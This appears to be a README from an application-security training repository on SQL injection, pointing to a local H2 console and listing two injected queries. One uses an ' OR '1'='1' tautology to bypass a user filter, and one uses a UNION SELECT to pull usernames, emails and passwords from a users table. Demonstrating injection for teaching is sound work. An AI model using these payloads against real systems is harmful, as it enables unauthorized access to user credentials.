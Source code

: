 # appsec-validation-injection-sql

http://localhost:8080/h2-console/login.jsp?jsessionid=6350ae370854407184e14377bbff4db7

```sql
SELECT id, slug, title FROM posts, user_posts WHERE posts.id = user_posts.post_id AND user_posts.user_id = 2 AND slug = 'post-a' OR '1' = '1'
```

```sql
SELECT id, slug, title FROM posts, user_posts WHERE posts.id = user_posts.post_id AND user_posts.user_id = 2 AND slug = 'post-a' UNION SELECT id, username, email, password FROM users WHERE '1'= '1'
```
